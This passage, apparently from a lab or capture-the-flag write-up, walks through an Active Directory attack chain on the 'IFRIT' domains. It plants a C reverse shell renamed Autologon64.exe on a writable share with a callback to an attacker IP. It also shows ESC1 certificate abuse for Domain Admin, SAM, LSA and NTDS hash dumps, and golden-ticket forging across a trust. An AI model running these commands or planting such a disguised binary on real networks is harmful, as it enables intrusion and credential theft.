3389/tcp open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: IT-IFRIT
|   NetBIOS_Domain_Name: IT-IFRIT
|   NetBIOS_Computer_Name: DC07
|   DNS_Domain_Name: it-ifrit.vl
|   DNS_Computer_Name: DC07.it-ifrit.vl
|   DNS_Tree_Name: it-ifrit.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-04-01T13:17:08+00:00
| ssl-cert: Subject: commonName=DC07.it-ifrit.vl
| Issuer: commonName=DC07.it-ifrit.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-31T02:44:52
| Not valid after:  2026-09-30T02:44:52
| MD5:     2c93 c945 7c01 107d e491 c7d6 caf9 4221
| SHA-1:   11c8 3fc1 548c f2c9 c246 6b90 8e43 1ebf 77a1 addd
| SHA-256: 049a c5af eb03 1ef2 8978 d44a e290 bcd5 8806 c977 155c 4481 d08b b02c 9901 840e
| -----BEGIN CERTIFICATE-----
| MIIC5DCCAcygAwIBAgIQPWEeN0sstbBDlCRkQQ5RATANBgkqhkiG9w0BAQsFADAb
| MRkwFwYDVQQDExBEQzA3Lml0LWlmcml0LnZsMB4XDTI2MDMzMTAyNDQ1MloXDTI2
| MDkzMDAyNDQ1MlowGzEZMBcGA1UEAxMQREMwNy5pdC1pZnJpdC52bDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAJVaLhIPpi2lpC8BwfMJtsFBdt4sIe/j
| Y0YRdlzf5/eEhULFr/ICzB4dM2WmkrxRIhOMwy80WlXOliGszYFQicVBoZ/SHY+k
| dOOq3/fdPJPEVhq1qElW/xv67zYkCiXkcozLddvIvZUEhZ78IzaanDEGSTk1GBYv
| V83rqDL/mIC2+jQ1gO3DJKx/aYAEtanGMqcfaC+ZTcR8Bwq/DoSFdepIeWKFgBCx
| BGy65JC8GVSqvjwf8PJ/fQc+lhDFslUkj0b0qj41gsctuzP7XLwnk8UY1P7FNS9+
| fm4fRXTVNiKipffqpE2phFq9mwy96wwXuDscdPf+o1xHDReswCM9TwECAwEAAaMk
| MCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEB
| CwUAA4IBAQAdeVFopwYk687dO5Dc3aDjjEQ1qkr/C2/qSCshns8yiWJ+J//rl46Z
| 3KZpwnBpf/5n6P1WUyAqQtonMktty37kw88CWawCT4x0oJpmb1I3HDRLgEZLW6/a
| FPSMuZjjbz2xKoKenrtqP5NMnaG321sni1JeX6nn9hGmLbvgKnT5uCHBs0CFZ7XK
| 3xy72x05/OQzysesgfZ+4GnmnMQPay+q+vmtYDInRz1R+AXa0d15h5mcmNWqWOce
| gLyyTaD7kVtZk84LBwOWKShdgdMDcFoGouNTaAkZ4iA7CO2Rl5FqOvl3aR5w1B8Y
| l/2A5gTeW8+qxMNtdcDZyyFLGvK0y1Tg
|_-----END CERTIFICATE-----
|_ssl-date: 2026-04-01T13:17:48+00:00; 0s from scanner time.
5985/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        syn-ack ttl 64 .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=4/1%OT=53%CT=%CU=%PV=Y%G=N%TM=69CD1AFD%P=x86_64-pc-linux-gnu)
SEQ(TI=I%CI=I%II=RI%TS=A)
SEQ(SP=FF%GCD=1%ISR=10B%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# AD

With the new snapshot I can see that the trust is chaning even more now:



Here I suspect I will be shifting torwards getting DA on IT first, and then abuse a sort of Child/Parent and get to EU later on. I see very few usernames so far:

```bash
└─$ netexec smb 172.16.41.17 -u 'SQL07$' -H 78f6497ad89e352b40cb4433dcdbf59a --users
SMB         172.16.41.17    445    DC07             [*] Windows Server 2022 Build 20348 x64 (name:DC07) (domain:it-ifrit.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.41.17    445    DC07             [+] it-ifrit.vl\SQL07$:78f6497ad89e352b40cb4433dcdbf59a 
SMB         172.16.41.17    445    DC07             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         172.16.41.17    445    DC07             Administrator                 2024-07-14 13:39:36 0       Built-in account for administering the computer/domain 
SMB         172.16.41.17    445    DC07             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         172.16.41.17    445    DC07             krbtgt                        2024-07-07 10:52:54 0       Key Distribution Center Service Account 
SMB         172.16.41.17    445    DC07             Georgina.Carey                2024-07-14 08:55:21 0        
SMB         172.16.41.17    445    DC07             Joseph.Gould                  2024-07-14 08:55:21 0        
SMB         172.16.41.17    445    DC07             Jonathan.Williamson           2024-07-14 08:55:21 0        
SMB         172.16.41.17    445    DC07             Sheila.Richards               2024-07-14 08:55:21 0        
SMB         172.16.41.17    445    DC07             Jessica.Parker                2024-07-14 08:55:22 0        
SMB         172.16.41.17    445    DC07             John.Ferguson                 2024-07-14 08:55:22 0        
SMB         172.16.41.17    445    DC07             Lorraine.Morgan               2024-07-14 08:55:22 0        
SMB         172.16.41.17    445    DC07             [*] Enumerated 10 local users: IT-IFRIT
                                                                                                           
```

This new user has the ability to reach the FS02 share:

```bash
─$ netexec smb 172.16.41.210 -u 'SQL07$' -H 78f6497ad89e352b40cb4433dcdbf59a --shares
SMB         172.16.41.210   445    FS02             [*] Windows Server 2022 Build 20348 x64 (name:FS02) (domain:it-ifrit.vl) (signing:False) (SMBv1:None)
SMB         172.16.41.210   445    FS02             [+] it-ifrit.vl\SQL07$:78f6497ad89e352b40cb4433dcdbf59a 
SMB         172.16.41.210   445    FS02             [*] Enumerated shares
SMB         172.16.41.210   445    FS02             Share           Permissions     Remark
SMB         172.16.41.210   445    FS02             -----           -----------     ------
SMB         172.16.41.210   445    FS02             ADMIN$                          Remote Admin
SMB         172.16.41.210   445    FS02             C$                              Default share
SMB         172.16.41.210   445    FS02             IPC$            READ            Remote IPC
SMB         172.16.41.210   445    FS02             it              READ,WRITE      admin share

```

Now since I don't see any data, I will place a link in the folder:

```bash
# cd ..
# tree
/Autologon64.exe
/backup.lnk
/pipelist64.exe
/procdump64.exe
/Procmon64.exe
/PsService64.exe
/ShareEnum64.exe
/Sysmon64.exe
/Temp/backup.lnk
Finished - 2 files and folders
# 

```

Now I have also tried using ntlm_theft to create more "exotic" file payloads that supposedly should get me a callback to responder even if someone surfes the share but it did not work which means I might have to craft a reverse shell and I prepared this payload which is a simple revshell written in C that shoould give me basic TCP connection while still flying under the radar:

```bash
──(user㉿kali-almi)-[~/Downloads/ifrit/shell/c-reverse-shell]
└─$ ./change_client.sh 10.10.14.9 443
Done!
                                                                                                                                                                        
┌──(user㉿kali-almi)-[~/Downloads/ifrit/shell/c-reverse-shell]
└─$ make       
gcc -std=c99 linux.c -o reverse.elf
i686-w64-mingw32-gcc-win32 -std=c99 windows.c -o reverse.exe -lws2_32
                                                                                                                                                                        
┌──(user㉿kali-almi)-[~/Downloads/ifrit/shell/c-reverse-shell]
└─$ cp reverse.exe ..                              
                                                                                                                                                                        
┌──(user㉿kali-almi)-[~/Downloads/ifrit/shell/c-reverse-shell]
└─$ cd ..             
                                                                                                                                                                        
┌──(user㉿kali-almi)-[~/Downloads/ifrit/shell]
└─$ mv reverse.exe Autologon64.exe                                                     
                                                                                                                                                                        
┌──(user㉿kali-almi)-[~/Downloads/ifrit/shell]
└─$ ll
total 112
-rwxrwxr-x 1 user user 107439 Apr  2 14:56 Autologon64.exe
drwxrwxr-x 3 user user   4096 Apr  2 14:55 c-reverse-shell
                                                                    
```

# ADCS again

Now I will use the FS02 credentials to enumerate the ADCS again and I can indeed see that now i have a ESC1 vulnerable template:

```bash
└─$ certipy-ad find -u 'FS02$@it-ifrit.vl' -hashes :4a01e9d8986475ce7aa5e8d6be46b162 -dc-ip 172.16.41.17  -stdout -vulnerable
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'it-ifrit-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'it-ifrit-CA'
[*] Checking web enrollment for CA 'it-ifrit-CA' @ 'DC07.it-ifrit.vl'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : it-ifrit-CA
    DNS Name                            : DC07.it-ifrit.vl
    Certificate Subject                 : CN=it-ifrit-CA, DC=it-ifrit, DC=vl
    Certificate Serial Number           : 147835D27598FBA04FF2912FBC9E189C
    Certificate Validity Start          : 2024-07-14 09:55:36+00:00
    Certificate Validity End            : 2526-04-05 02:36:15+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : True
        Channel Binding (EPA)           : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : IT-IFRIT.VL\Administrators
      Access Rights
        ManageCa                        : IT-IFRIT.VL\Administrators
                                          IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
        ManageCertificates              : IT-IFRIT.VL\Administrators
                                          IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
        Enroll                          : IT-IFRIT.VL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP and HTTPS, and Channel Binding is disabled.
Certificate Templates
  0
    Template Name                       : IT-Computers
    Display Name                        : IT-Computers
    Certificate Authorities             : it-ifrit-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 500 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Template Created                    : 2024-07-14T10:07:37+00:00
    Template Last Modified              : 2024-08-02T09:10:28+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : IT-IFRIT.VL\FS02
                                          IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : IT-IFRIT.VL\Administrator
        Full Control Principals         : IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
        Write Owner Principals          : IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
        Write Dacl Principals           : IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
        Write Property Enroll           : IT-IFRIT.VL\Domain Admins
                                          IT-IFRIT.VL\Enterprise Admins
    [+] User Enrollable Principals      : IT-IFRIT.VL\FS02
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.

```

When I did it before, I wasn't able to change the UPN because I was redirecting a Authentication coercion so the certificate got created on behalf of the **FS02\$** computer object but now by using the FS02 credentials I can make another request but this time for the DC07 by altering its UPN. Now I had to specificly define the size to 4096 bytes but now I got one for the DA:

```bash
└─$ certipy-ad req -u 'FS02$@it-ifrit.vl' -hashes :4a01e9d8986475ce7aa5e8d6be46b162 -dc-ip 172.16.41.17 -ca it-ifrit-CA -template IT-Computers -upn 'Administrator@it-ifrit.vl' -key-size 4096
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 51
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@it-ifrit.vl'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

And for my convenience, obtain a valid NTLM hash for the DA in the IT realm:

```bash
└─$ certipy-ad auth -pfx administrator.pfx  -dc-ip 172.16.41.17        
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@it-ifrit.vl'
[*] Using principal: 'administrator@it-ifrit.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@it-ifrit.vl': aad3b435b51404eeaad3b435b51404ee:6b6b265c14e20192eb6a6dbb0a1426ba
```

And now I will dump the credentials from the secrets:

```bash
└─$ netexec smb 172.16.41.17 -u Administrator -H 6b6b265c14e20192eb6a6dbb0a1426ba --sam --lsa --dpapi                    
SMB         172.16.41.17    445    DC07             [*] Windows Server 2022 Build 20348 x64 (name:DC07) (domain:it-ifrit.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.41.17    445    DC07             [+] it-ifrit.vl\Administrator:6b6b265c14e20192eb6a6dbb0a1426ba (Pwn3d!)
SMB         172.16.41.17    445    DC07             [*] Dumping SAM hashes
SMB         172.16.41.17    445    DC07             Administrator:500:aad3b435b51404eeaad3b435b51404ee:6b6b265c14e20192eb6a6dbb0a1426ba:::
SMB         172.16.41.17    445    DC07             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.41.17    445    DC07             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[18:03:19] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                      regsecrets.py:436
SMB         172.16.41.17    445    DC07             [+] Added 3 SAM hashes to the database
SMB         172.16.41.17    445    DC07             [*] Dumping LSA secrets
SMB         172.16.41.17    445    DC07             IT-IFRIT\DC07$:aes256-cts-hmac-sha1-96:34bdcb5ce5b60ebb81b7e20108fce0af6dad0cf6d4e4f74804a4b2ffcd27e33d
SMB         172.16.41.17    445    DC07             IT-IFRIT\DC07$:aes128-cts-hmac-sha1-96:cdce4d12eaed489327e26691626c30b0
SMB         172.16.41.17    445    DC07             IT-IFRIT\DC07$:des-cbc-md5:6b7032b06e3efbe0
SMB         172.16.41.17    445    DC07             IT-IFRIT\DC07$:plain_password_hex:24c0815dbc6d23e0b0deb1a80cdd1141a09ae6e529774f8fe6a82ec38a4de39d584ad9b07e9c37312e2e969cca8b396cabf806d6c5f2b237f0314bab7cb430f58266f69b7982939e8c70657f6a147c076fb2fd9b326480470e057bfaaaca29e6674d57ace6c130ec0152ff90fe9eb9ef760b325973cb790c8d5cdf2eb007d52ad81ef22c5de631dff20284776040053e63b5217017286a82c699b78d836a2a3b66e4604c547c3ac96bbe5b54d4b45a92dfdd4810a72895d041e6d99532a15b792f398be7ae147e0d71b33964ccb4081f792d30eca0860d77e9f2c85a4330a00dd6b0f3b8ffcd032d77b186641fe9f5fe
SMB         172.16.41.17    445    DC07             IT-IFRIT\DC07$:aad3b435b51404eeaad3b435b51404ee:9ea68c49ba4a37049a3ffbbc4b558b8b:::
SMB         172.16.41.17    445    DC07             dpapi_machinekey:0x4c6c26e27b5ae17aa8f013ce06271f2bb95bcb0e
dpapi_userkey:0xb1e80c53c4c2f9dc8428dbfc73c561522769c29b
SMB         172.16.41.17    445    DC07             [+] Dumped 6 LSA secrets to /home/millycash/.nxc/logs/lsa/DC07_172.16.41.17_2026-04-05_180253.secrets and /home/millycash/.nxc/logs/lsa/DC07_172.16.41.17_2026-04-05_180253.cached
SMB         172.16.41.17    445    DC07             [+] User is Domain Administrator, exporting domain backupkey...
SMB         172.16.41.17    445    DC07             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.41.17    445    DC07             [+] Got 7 decrypted masterkeys. Looting secrets...
                                                                                                           
```

And grab another flag:

```bash
evil-winrm-py PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         4/24/2025  11:23 PM             39 flag.txt                                                              
-a----         7/14/2024   2:18 AM           2304 Microsoft Edge.lnk                                                    


evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
IFRIT{0bdd04482d51c7250097c0a149887fa0}
evil-winrm-py PS C:\Users\Administrator\Desktop> hostname
DC07
evil-winrm-py PS C:\Users\Administrator\Desktop>


```

I will also dump the NTDS dit file as sort of "persistence" exercise:

```bash
└─$ netexec smb 172.16.41.17 -u Administrator -H 6b6b265c14e20192eb6a6dbb0a1426ba --ntds                            
SMB         172.16.41.17    445    DC07             [*] Windows Server 2022 Build 20348 x64 (name:DC07) (domain:it-ifrit.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.41.17    445    DC07             [+] it-ifrit.vl\Administrator:6b6b265c14e20192eb6a6dbb0a1426ba (Pwn3d!)
SMB         172.16.41.17    445    DC07             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.41.17    445    DC07             Administrator:500:aad3b435b51404eeaad3b435b51404ee:6b6b265c14e20192eb6a6dbb0a1426ba:::
SMB         172.16.41.17    445    DC07             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.41.17    445    DC07             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:86225470b55ad07a4528cf442b1fff0c:::
SMB         172.16.41.17    445    DC07             it-ifrit.vl\Georgina.Carey:1107:aad3b435b51404eeaad3b435b51404ee:26f6b01d8ed5903a9c0ea1add0eb817e:::
SMB         172.16.41.17    445    DC07             it-ifrit.vl\Joseph.Gould:1108:aad3b435b51404eeaad3b435b51404ee:2f25c1156f72bdcb30a00f97f03b3a78:::
SMB         172.16.41.17    445    DC07             it-ifrit.vl\Jonathan.Williamson:1109:aad3b435b51404eeaad3b435b51404ee:5dff3390d1de4869707240f0cbb59e4f:::
SMB         172.16.41.17    445    DC07             it-ifrit.vl\Sheila.Richards:1110:aad3b435b51404eeaad3b435b51404ee:084fa60567c6b124d0a4ca54fac5d3ce:::
SMB         172.16.41.17    445    DC07             it-ifrit.vl\Jessica.Parker:1111:aad3b435b51404eeaad3b435b51404ee:1d67363157f3a4582936006bb4407f2c:::
SMB         172.16.41.17    445    DC07             it-ifrit.vl\John.Ferguson:1112:aad3b435b51404eeaad3b435b51404ee:5c8154d630a7554ef70a6f6cd55abe18:::
SMB         172.16.41.17    445    DC07             it-ifrit.vl\Lorraine.Morgan:1113:aad3b435b51404eeaad3b435b51404ee:c6882a60b40589fc2fc98b256b604a55:::
SMB         172.16.41.17    445    DC07             DC07$:1000:aad3b435b51404eeaad3b435b51404ee:9ea68c49ba4a37049a3ffbbc4b558b8b:::
SMB         172.16.41.17    445    DC07             FS02$:1104:aad3b435b51404eeaad3b435b51404ee:4a01e9d8986475ce7aa5e8d6be46b162:::
SMB         172.16.41.17    445    DC07             SQL07$:1105:aad3b435b51404eeaad3b435b51404ee:6b0bd589ec7ee653528cd118e1aeef14:::
SMB         172.16.41.17    445    DC07             FS01$:1116:aad3b435b51404eeaad3b435b51404ee:5452e27978cb440599d72bf8a7da0c56:::
SMB         172.16.41.17    445    DC07             EU-IFRIT$:1103:aad3b435b51404eeaad3b435b51404ee:61ceecb83651ec3199b8741c4442220e:::
SMB         172.16.41.17    445    DC07             [+] Dumped 15 NTDS hashes to /home/millycash/.nxc/logs/ntds/DC07_172.16.41.17_2026-04-05_180852.ntds of which 10 were added to the database
SMB         172.16.41.17    445    DC07             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         172.16.41.17    445    DC07             [*] grep -iv disabled /home/millycash/.nxc/logs/ntds/DC07_172.16.41.17_2026-04-05_180852.ntds | cut -d ':' -f1

```

# Back on the original target

Now before moving to the third domain I sill need to PWN the initial realm **EU** and to do so I need to check if there is a SID filtering enabled on the domain since I suspect a SID history abuse will do the trick and get me a valid ticket in the EU realm.

```bash
evil-winrm-py PS C:\Users\Administrator\Desktop> Get-ADTrust -Filter *


Direction               : Outbound
DisallowTransivity      : False
DistinguishedName       : CN=ifrit.vl,CN=System,DC=it-ifrit,DC=vl
ForestTransitive        : True
IntraForest             : False
IsTreeParent            : False
IsTreeRoot              : False
Name                    : ifrit.vl
ObjectClass             : trustedDomain
ObjectGUID              : f2ae4fff-52f5-4fa8-9624-586c075816a4
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=it-ifrit,DC=vl
Target                  : ifrit.vl
TGTDelegation           : False
TrustAttributes         : 8
TrustedPolicy           : 
TrustingPolicy          : 
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False

Direction               : BiDirectional
DisallowTransivity      : False
DistinguishedName       : CN=eu-ifrit.vl,CN=System,DC=it-ifrit,DC=vl
ForestTransitive        : True
IntraForest             : False
IsTreeParent            : False
IsTreeRoot              : False
Name                    : eu-ifrit.vl
ObjectClass             : trustedDomain
ObjectGUID              : 09cf285e-6fa6-47e5-97c8-ae71d7548e1a
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=it-ifrit,DC=vl
Target                  : eu-ifrit.vl
TGTDelegation           : False
TrustAttributes         : 8
TrustedPolicy           : 
TrustingPolicy          : 
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False


```

And judging by that **SIDFilteringForestAware=FALSE** I can tell right away that SID filtering is not active and I will be able to forge my own golden ticket. Here it is funny because raise child fails all the time and I have no clue why? EDIT: seems like the tool doesn't understand it need to switch from IT to EU, it still stays IT to IT.

```bash
└─$ impacket-raiseChild it-ifrit.vl/Administrator -hashes :6b6b265c14e20192eb6a6dbb0a1426ba -target-exec 172.16.41.14
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Raising child domain it-ifrit.vl
[*] Forest FQDN is: it-ifrit.vl
[*] Raising it-ifrit.vl to it-ifrit.vl
[*] it-ifrit.vl Enterprise Admin SID is: S-1-5-21-2679633274-2572298512-61362222-519
[*] Getting credentials for it-ifrit.vl
it-ifrit.vl/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:86225470b55ad07a4528cf442b1fff0c:::
it-ifrit.vl/krbtgt:aes256-cts-hmac-sha1-96s:0698e2a14a49121910963ed6d5f982773fd0cea25f8a4ba326081470206a2c30
[-] Kerberos SessionError: KDC_ERR_TGT_REVOKED(TGT has been revoked)

```

But Netexec never misses to surprise:

```bash
└─$ netexec ldap 172.16.41.17 -u Administrator -H 6b6b265c14e20192eb6a6dbb0a1426ba -M raisechild
LDAP        172.16.41.17    389    DC07             [*] Windows Server 2022 Build 20348 (name:DC07) (domain:it-ifrit.vl) (signing:None) (channel binding:Never)
LDAP        172.16.41.17    389    DC07             [+] it-ifrit.vl\Administrator:6b6b265c14e20192eb6a6dbb0a1426ba (Pwn3d!)
RAISECHILD  172.16.41.17    389    DC07             [*] Running raisechild module...
RAISECHILD  172.16.41.17    389    DC07             Child Domain SID: S-1-5-21-2679633274-2572298512-61362222
RAISECHILD  172.16.41.17    389    DC07             Parent domain name: eu-ifrit.vl
RAISECHILD  172.16.41.17    389    DC07             Parent domain SID:  S-1-5-21-815464091-3988217837-1862656938
RAISECHILD  172.16.41.17    389    DC07             krbtgt hash: krbtgt:502:aad3b435b51404eeaad3b435b51404ee:86225470b55ad07a4528cf442b1fff0c:::
RAISECHILD  172.16.41.17    389    DC07             [+] Golden ticket forged successfully (etype: rc4). Saved to: Administrator.ccache
RAISECHILD  172.16.41.17    389    DC07             [+] Run the following command to use the TGT: export KRB5CCNAME=Administrator.ccache

```

And also doing it manually it works just fine:

```bash
└─$ impacket-ticketer -nthash 86225470b55ad07a4528cf442b1fff0c -domain it-ifrit.vl -domain-sid S-1-5-21-2679633274-2572298512-61362222 -extra-sid S-1-5-21-815464091-3988217837-1862656938-519 Administrator
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for it-ifrit.vl/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in Administrator.ccache
                                           
```

But here I had to use the AES key insteead otherwise i was keep getting ticket revocated:

```bash
└─$ impacket-ticketer -aesKey 0698e2a14a49121910963ed6d5f982773fd0cea25f8a4ba326081470206a2c30 -domain it-ifrit.vl -domain-sid S-1-5-21-2679633274-2572298512-61362222 -extra-sid S-1-5-21-815464091-3988217837-1862656938-519 Administrator 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for it-ifrit.vl/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in Administrator.ccache
                                                                                                                                                               
┌──(millycash㉿kali-bello)-[~/Downloads/Ifrit]
└─$ export KRB5CCNAME=/home/millycash/Downloads/Ifrit/Administrator.ccache

```

Now for some reasons it is not working, my user is just a low-privileged user which means I cannot get to the DC and this is not the intended path so I will move back to the DC machine at the EU realm.